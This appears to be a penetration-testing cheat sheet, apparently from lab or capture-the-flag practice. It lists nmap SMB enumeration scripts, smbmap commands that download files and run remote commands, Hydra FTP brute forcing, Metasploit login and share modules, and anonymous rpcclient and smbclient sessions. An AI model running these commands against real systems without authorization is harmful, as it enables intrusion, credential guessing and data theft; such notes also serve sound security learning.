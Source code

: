 **NMAP scripts**

```nmap -p445 --script smb-protocols (IP Address)```

```nmap -p445 --script smb-security-mode (IP Address)```

```nmap -p445 --script smb-enum-sessions (IP Address)```

```nmap -p445 --script smb-enum-shares (IP Address)```

```nmap -p445 --script smb-enum-domains (IP Address)```

```nmap -p445 --script smb-enum-groups (IP Address)```

```nmap -p445 --script smb-enum-services (IP Address)```

```nmap -p445 --script smb-enum-shares,smb-ls --script-args smbusername=(username),smbpassword=(password) (IP Address)```

IPC$ is useful. It is an anonymous session. It allows guest access.

**SMBMap**

Show permissions for user

```smbmap -u "(username)" -p "(password)" -H "(IP address)```

List out contents of drive

```smbmap -H (Ip address) -u (username) -p (password) -r C$```

Downloading file using SMB Map

```smbmap -u administrator -p smbserver_771 -H 10.4.244.255 --download "c$\flag.txt```

Executing a command

```smbmap -H (Ip address) -u (username) -p (password) -x 'command' ---command example-IPconfig```

**Brute forcing FTP using Hydra
**

```hydra -L (Username list) -P (Password list) (IP Address) ftp```

**SSH - Getting SSH host key using Nmap
**

```nmap (IPaddress) -p 22 --script-args ssh_hostkey=full```
Save the host key for later

**Metasploit**

Module: Auxiliary/scanner/smb/smb_enumshares -- enumerates shares

Auxiliary/scanner/smb/smb_login -- dictionary attack

**RPCClient**

```rpcclient -U "" -N 192.168.0.0```

Useful commanands within
- Enumdomusers
- Lookupnames -- example lookupnames admin

**Connecting to SMB share**

smbclient //(IP Address)/(folder you found) -N

get command -- Getting file
